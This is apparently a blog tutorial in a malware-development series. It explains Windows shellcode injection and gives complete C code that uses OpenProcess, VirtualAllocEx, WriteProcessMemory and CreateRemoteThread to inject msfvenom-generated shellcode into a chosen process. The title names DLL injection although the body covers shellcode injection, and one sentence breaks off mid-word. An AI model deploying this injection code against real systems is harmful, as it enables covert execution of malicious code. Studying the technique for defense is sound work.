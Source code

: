 ```yaml
---
layout: single
title: "Payload Unleashed: DLL Injection"
date: 2024-03-01
classes: wide
header:
  teaser: /assets/images/maldev.png
categories:
  - infosec
tags:
  - windows
  - malware
  - payload-unleashed
---
```

Shellcode is a snippet of machine code typically written in assembly language. It's designed to perform a specific task when executed, often granting the attacker control over the compromised system. 

Shellcode injection involves the insertion and execution of such malicious code within the memory space of a target process, bypassing traditional security measures.

# Techniques for Shellcode Injection

## 1. Process Injection:

   - **Remote Thread Injection**: This technique involves creating a remote thread in the target process and directing it to execute the shellcode.
   - **Process Hollowing**: In process hollowing, a legitimate process is spawned in a suspended state, its memory contents replaced with the attacker's shellcode, and then resumed to execute the malicious code.

## 2. Code Cave Injection:

   - **Code Cave**: A code cave refers to an unused or padding section of executable memory within a process. Attackers exploit these code caves to inject and execute their shellcode, often evading detection.
   - **Return-Oriented Programming (ROP)**: ROP chains leverage existing code fragments within a process, known as gadgets, to perform malicious operations. Attackers construct a sequence of gadgets that ultimately lead to the execution of the injected shellcode.

To be concrete and concise, in this blog post we will only cover **Remote Thread Injection**. 

# Hands-On: Shellcode Injection with C Code Snippet 
## Understanding Shellcode Injection Process

Before delving into the code snippet, let's understand the purpose of each function used in the shellcode injection process and its significance within the attack:

1.   **Opening the Target Process**: Use [`OpenProcess`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) to open a handle to the target process identified by its process ID.
    
2.   **Memory Allocation**: Use [`VirtualAllocEx`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) to allocate memory within the address space of the target process.
    
3.   **Shellcode Injection**: Use [`WriteProcessMemory`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) to write the shellcode to the allocated memory within the target process.
    
4.   **Remote Thread Creation**: Use [`CreateRemoteThread`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) to create a remote thread in the target process, specifying the entry point as the allocated memory containing the shellcode.
    
5.   **Cleanup**: Close handles and release allocated memory after the execution of the remote thread.


```C
#include <windows.h>
#include <stdio.h>

//msfvenom -a x86 --platform windows -p windows/exec CMD="cmd.exe" EXITFUNC=thread -f c
unsigned char shellcode[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x6d\x64\x2e\x65\x78\x65\x00";


int main()
{
    // Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, <TARGET_PROCESS_ID>); // Replace <TARGET_PROCESS_ID> with the process ID of the target process
    if (hProcess == NULL) {
        printf("Failed to open target process. Error code: %d\n", GetLastError());
        return 1;
    }

    // Allocate memory within the target process
    LPVOID pAllocatedMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (pAllocatedMemory == NULL) {
        printf("Failed to allocate memory in target process. Error code: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // Write the shellcode to the allocated memory in the target process
    if (!WriteProcessMemory(hProcess, pAllocatedMemory, shellcode, sizeof(shellcode), NULL)) {
        printf("Failed to write shellcode to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Create a remote thread in the target process to execute the shellcode
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pAllocatedMemory, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Wait for the remote thread to terminate
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    CloseHandle(hThread);
    VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}

```


Remember to collect the desired PID of the process you want to inject the shellcode to and change it in t
# Conclusion

Shellcode injection represents a formidable challenge in the realm of cybersecurity, enabling attackers to covertly execute malicious code within legitimate processes. Understanding the intricacies of shellcode injection, along with implementing robust detection and mitigation strategies, is essential for organizations to defend against this stealthy threat. By staying vigilant and adopting a multi-layered security approach, organizations can bolster their defenses and mitigate the risks posed by shellcode injection in today's dynamic threat landscape. Explore more insights into cybersecurity challenges and solutions in our ongoing series.